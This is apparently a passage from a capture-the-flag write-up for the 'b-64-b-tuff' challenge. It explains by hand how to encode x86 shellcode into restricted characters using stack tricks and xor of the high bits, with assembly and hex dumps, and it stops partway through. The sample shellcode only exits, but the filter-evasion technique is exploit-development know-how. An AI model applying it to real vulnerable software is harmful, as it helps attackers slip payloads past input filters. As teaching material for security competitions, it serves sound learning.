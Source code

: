 And the fourth:

<pre id='vimCodeElement'>
<span class="Identifier">push</span> <span class="Identifier">edi</span> <span class="Comment">; 0x00000000</span>
<span class="Identifier">push</span> <span class="Identifier">edx</span>
<span class="Identifier">dec</span> <span class="Identifier">esp</span>
<span class="Identifier">dec</span> <span class="Identifier">esp</span>
<span class="Identifier">dec</span> <span class="Identifier">esp</span> <span class="Comment">; &lt;-- New</span>
<span class="Identifier">pop</span> <span class="Identifier">edx</span>
<span class="Identifier">inc</span> <span class="Identifier">esp</span>
<span class="Identifier">inc</span> <span class="Identifier">esp</span>
<span class="Identifier">inc</span> <span class="Identifier">esp</span> <span class="Comment">; &lt;-- New</span>
</pre>

<h2>Putting it all together</h2>

You can take a look at how I do this in <a href='https://github.com/BSidesSF/ctf-2017-release/blob/master/pwn/b-64-b-tuff/solution/sploit.rb'>my final code</a>. It's going to be a little different, because instead of using our xor trick to set edx to 0x7F, I instead push 0x7a / pop edx / increment 6 times. The only reason is that I didn't think of the xor trick when I was writing the original code, and I don't want to mess with it now.

But, we're going to do it the hard way: by hand! I'm literally writing this code as I write the blog (and, message from the future: it worked on the second try :) ).

Let's just stick with our simple exit-with-0x41414141-status shellcode:

<pre id='vimCodeElement'>
<span class="Identifier">mov</span> <span class="Identifier">eax</span>, <span class="Number">0x01</span> <span class="Comment">; Syscall 1 = sys_exit</span>
<span class="Identifier">mov</span> <span class="Identifier">ebx</span>, <span class="Number">0x41414141</span> <span class="Comment">; First (and only) parameter: the exit code</span>
<span class="Identifier">int</span> <span class="Number">0x80</span>
</pre>

Which assembles to this, which is conveniently already a multiple of 4 bytes so no padding required:

<pre>
00000000  b8 01 00 00 00 bb 41 41  41 41 cd 80              |......AAAA..|
</pre>

Since we're doing it by hand, let's extract all the MSBs into a separate string (remember, this is all done programmatically usually):

<pre>
00000000  38 01 00 00 00 3b 41 41  41 41 4d 00              |......AAAA..|
00000000  80 00 00 00 00 80 00 00  00 00 80 80              |......AAAA..|
</pre>

If you xor those two strings together, you'll get the original string back.

First, let's worry about the first string. It's handled exactly the way we did the last example. We start by getting the three 32-bit values as little endian values:
